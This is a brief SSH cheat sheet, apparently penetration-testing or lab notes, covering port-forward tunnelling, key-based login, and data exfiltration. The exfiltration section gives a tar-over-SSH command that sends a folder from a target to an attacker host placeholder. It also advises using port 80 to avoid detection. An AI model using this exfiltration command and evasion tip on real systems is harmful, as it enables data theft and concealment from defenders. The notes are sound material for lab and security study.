 # Create a Tunnel
```bash
# Send local 8080 traffic to host 172.17.0.2
ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.164.248
```

# Connect with RSA Key
```bash
ssh user@host -i id_rsa
```

# Exfiltrate Data
```bash
# From target, tar folder containing data and pipe to SSH.
# Port 80 may be best, to avoid detection on port 22.
# Process will untar file to /tmp/datafolder.

tar zcf - /tmp/datafolder | ssh <user>@<Attack IP Address> "cd /tmp; tar zxpf -"
```
### Data Exfiltration References
[BASH Shell Redirect stderr To stdout (redirect stderr to a File)](https://www.cyberciti.biz/faq/redirecting-stderr-to-stdout/)

